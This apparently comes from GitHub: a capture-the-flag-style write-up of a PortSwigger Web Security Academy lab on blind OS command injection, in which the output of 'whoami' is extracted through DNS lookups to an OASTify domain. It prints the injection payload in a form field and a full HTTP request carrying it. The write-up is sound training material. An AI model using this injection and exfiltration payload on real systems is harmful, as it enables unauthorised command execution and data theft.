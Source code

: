 
# 💻 Blind OS Command Injection – OOB Data Exfiltration

> 🧠 **Level**: Practitioner  
> 🌐 **Platform**: PortSwigger Web Security Academy  
> 👩‍💻 **Author**: Kaouthar Belkebir  

---

## 🧩 Lab Description

This lab is vulnerable to **blind OS command injection**.  
The twist? Instead of just confirming command execution via DNS, we extract **data from the server** (like the current user) through **Out-of-Band (OOB) DNS exfiltration**.

🎯 **Goal**:  
Extract the output of the `whoami` command by injecting it into a DNS request that reaches a Burp Collaborator (or OASTify) domain.

---

## 🧪 Exploitation Strategy

### 🧠 Injection Logic:

We leverage command substitution using backticks:
```bash
`whoami`
````

...which executes the `whoami` command and inserts the result in place.

We then wrap that inside an `nslookup` call to **exfiltrate the output**:

```bash
||nslookup `whoami`.attacker.oastify.com||
```

This forces the server to perform a DNS query like:

```bash
<current-user>.attacker.oastify.com
```

…and we catch that request via our **Collaborator/OASTify interface**.

---

## 🧠 Payload Used

```bash
||nslookup `whoami`.255plsvut40fwbds4ix2afddi4ovcl0a.oastify.com||
```

🔐 Injected in the `email` field:

```http
email=hacker1@gmail.com||nslookup `whoami`.255plsvut40fwbds4ix2afddi4ovcl0a.oastify.com||
```

---

## 📥 Full HTTP Request

```http
POST /feedback/submit HTTP/2
Host: 0a4e002f032675f483630676007f0002.web-security-academy.net
Cookie: session=zC5kjBvzIp46s9scyCly7FndTFTcuMNV
Content-Type: application/x-www-form-urlencoded

csrf=yP0mub7Il89tBqWrfKdmVP8xa627BZpL&
name=hacker&
email=hacker1@gmail.com||nslookup `whoami`.255plsvut40fwbds4ix2afddi4ovcl0a.oastify.com||&
subject=blind&
message=blindblind
```

---

## 🧬 Why This Works

* The `email` field is concatenated unsafely into a shell command.
* The shell executes `nslookup`, which includes the result of `whoami`.
* The server performs a DNS request to a domain we control (via Burp Collaborator or OASTify).
* That DNS lookup reveals the **output of the command** — the server’s current user.

---

## 📸 Screenshot (Proof of Concept)

![OOB DNS exfiltration confirmed](https://github.com/Kabilala/OS-command-injection/blob/main/lab5/lab5.png)
